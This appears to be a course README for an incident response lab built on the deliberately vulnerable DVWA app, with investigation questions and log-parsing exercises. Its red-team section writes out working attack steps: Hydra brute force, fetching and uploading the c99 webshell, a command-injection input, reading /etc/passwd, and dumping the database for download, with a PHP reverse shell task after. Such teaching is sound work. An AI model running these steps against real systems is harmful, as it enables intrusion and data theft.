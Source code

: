 # Week 1 - Dam Vulnerable Web App(DVWA)
This week we are using DVWA for our incident response demo. DVWA provides a vulnerable webapp that is ready to be hacked out of the box.

## Presentation
Intro to IR: https://docs.google.com/presentation/d/1URpDkIjIGJbsgWn-Dqu-diC3PAdERRVYj4I2FfBWvqk/edit?usp=sharing

## Setup demo
### Init
0. Install docker and docker-compose

### Spin up demo
0. docker-compose up -d

### WebGUI setup
0. Browse to `http://dvwa.hackinglab.beer:8080` 
0. Login
    1. username: admin
    1. password: password
0. Select "DVWA security" on the left
0. Set the security level to "low"
0. Continue to red teaming section

## Perform red teaming
### Nikto scanner
0. Spin up Kali Linux VM
0. Open terminal
0. `nikto -host http://dvwa.hackinglab.beer`

### Hydra brute force
0. `hydra -l admin -P /usr/share/dirb/wordlists/small.txt dvwa.hackinglab.beer -s 8080 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -V`

### Zip, upload and unzip c99.php
0. `wget https://raw.githubusercontent.com/tennc/webshell/master/php/PHPshell/c99/c99.php`
0. `gzip -f c99.php`
0. Browse http://dvwa.hackinglab.beer with CHROME and login
    1. User: admin
    1. Pass: password
0. Select "Upload" on the left
0. Select "Choose file", "c99.php.gz" then "Upload"
0. Select "Command injection" on the right
0. Enter `8.8.8.8; /bin/gunzip -v ../../hackable/uploads/c99.php` into "Enter ip address"
0. Browse to http://dvwa.hackinglab.beer:8080/hackable/uploads/c99.php

### Host situation awareness
0. Get current user: whoami
0. Get ip info: ip a
0. Get hostname: hostname
0. Get list of users: cat /etc/passwd
0. Get connection info: ss -l -n -t
0. Get process list: ps aux
0. Get known hosts: arp -a

### Dump database
0. `mysql -u root -e "show databases;"`
    1. There is no root password
0. `mysql -u root -e "use dvwa; show tables"`
0. `mysqldump -u root --database dvwa > dump.sql`
0. Use c99.php web shell to download dump

## Incident reponse demo
### Connecting to machine
0. ssh guardian@dvwa.hackinglab.beer -p5000

### Understanding the machine
It is important to understand the machine you are investigating

0. What is the operating system(OS) of the attacked machine?
0. What is the kernel of the attacked machine?
0. What is the timezone of the attacked machine?
0. What is the IP address of the attacked machine?
0. What is the MAC address of the attacked machine?
0. What is the hostname of the attacked machine?
0. What network services are listening on the attcked machine? -- include ports
0. What users are on the attacked machine?

### Become the cyber detective
0. What are the version numbers of all the listening services?
0. Do the services have any known vulnerabilities? What sources/tools did you use?
0. Where are the web server logs located?
0. What is the diff between the error.log and access.log? What information do these logs provide?
0. What are the user permissions of the log files? Why does this matter?
0. What is the timezone and time format of the webservers logs? Why does this matter?
0. What is the hackers's IP address?
0. What is the hacker's user-agent?
0. What is the operating system(OS) of the hacker's machine?
0. What webshell did the attacker use? 
0. Where was that webshell uploaded to?
0. What commands/actions did the attacker use?
0. Give a brief description how the attacker stole the data?
0. Lookup three mitigations for next week.

## Scripting challenges
0. Create a Github account and repo called “DFIRtooklit”
    1. Choose your own repo name
    1. Repo can be private or public -- your choice - mine is private
    1. If you don’t create a repo you won't receive any points.
0. Create a script in with a programming language of your choice to do everything in the “understanding the machine” section, items listed below, and then add three of your own.
    1. Create a script(s) that will parse webserver logs for:
    1. Unique list(no duplicates) of user ip addresses
    1. Unique list(no duplicates) of URIs 
    1. Unique list(no duplicates) of CMDs run by c99
    1. Unique list(no duplicates) of CMD responses by c99
    1. OUTPUT MUST BE PRETTY

## Red team challenge
### Create red team challenge container
0. Browse to http://dvwa.hackinglab.beer:9999
0. Select "Login"
    1. Username: admin
    1. Password: password
0. Login
0. Select "DVWA security" on the left
0. Set the security level to "medium"

### Create a PHP reverse shell with Metasploit
* attack: http://dvwa.hackinglab.beer:9090
* DO NOT ATTACK port 80

# Resources/Sources
* https://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson14/index.html